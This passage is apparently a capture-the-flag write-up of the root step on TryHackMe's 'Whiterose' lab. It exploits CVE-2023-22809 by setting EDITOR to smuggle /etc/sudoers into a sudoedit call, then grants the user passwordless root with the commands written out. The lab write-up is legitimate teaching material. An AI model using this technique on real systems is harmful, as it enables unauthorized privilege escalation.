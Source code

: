 > A vulnerability was discovered by Synacktive in the sudo program and was published on January 18, 2023, known as CVE-2023-22809. This vulnerability leads to a security bypass in the sudoedit feature, allowing unauthorized users to escalate their privileges by editing files. This vulnerability affects versions of sudo from 1.8.0 through 1.9.12p1.
{: .prompt-tip }

```bash
web@cyprusbank:~/.nvm/versions/node/v17.9.1/bin$ sudoedit -V
Sudo version 1.9.12p1
Sudoers policy plugin version 1.9.12p1
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.12p1
Sudoers audit plugin version 1.9.12p1
```
{: .nolineno }

Exporting the `/etc/sudoers` file in the `PATH` variable to modify it.

```bash
web@cyprusbank:~$ export EDITOR="vi -- /etc/sudoers"
web@cyprusbank:~$ sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
{: .nolineno }

Now when we open the file it’ll open the sudoers file with write privileges and we’ll give web user privileges to run anything as root without a password.

```bash
web ALL=(ALL) NOPASSWD: ALL
```
{: .nolineno }

![sudoers](https://miro.medium.com/v2/resize:fit:828/format:webp/1*a4h5uzwswZrHFDLUVFiO0Q.png)
_Web --> Root_

Now save the files and check the web user sudo privileges.

```bash
web@cyprusbank:~/app$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (ALL) NOPASSWD: ALL
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
{: .nolineno }

Getting a shell as root.

![root shell](https://miro.medium.com/v2/resize:fit:786/format:webp/1*ThQWa-_jkoLacdYNrbvU_w.png)
_Root Flag_

Thanks for reading, We successfully hacked **Whiterose** from TryHackMe.